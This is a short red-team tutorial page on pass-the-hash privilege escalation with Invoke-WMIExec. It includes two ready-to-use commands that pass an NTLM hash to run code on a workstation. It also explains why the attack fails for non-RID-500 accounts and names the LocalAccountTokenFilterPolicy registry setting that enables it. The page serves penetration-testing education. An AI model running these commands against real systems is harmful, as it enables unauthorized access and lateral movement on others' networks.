 # Pass The Hash: Privilege Escalation with Invoke-WMIExec

## Execution

If you have an NTLMv2 hash of a local administrator on a box ws01, it's possible to pass that hash and execute code with privileges of that local administrator account:

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username administrator -command hostname
```

Below shows how the user `low` is not a local admin, passes the hash of the local `administrator` account on ws01 and executes a command successfully:

![](<../../.gitbook/assets/image (167).png>)

## RID != 500 - No Pass The Hash for You

Say you have a hash of the user spotless who you know is a local admin on ws01:

![](<../../.gitbook/assets/image (176).png>)

...but when you attempt passing the hash, you get access denied - why is that?

![](<../../.gitbook/assets/image (173).png>)

It may be because hashes for accounts that are not RID=500 (not default administrator accounts) are stripped of some privileges during the token creation.

![](<../../.gitbook/assets/image (172).png>)

![](<../../.gitbook/assets/image (171).png>)

If the target system you are passing the hash to, has the following registry key/value/data set to 0x1, pass the hash will work even for accounts that are not RID 500:

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
```

![](<../../.gitbook/assets/image (166).png>)

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username spotless -command hostname
```

![](<../../.gitbook/assets/image (168).png>)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" %}
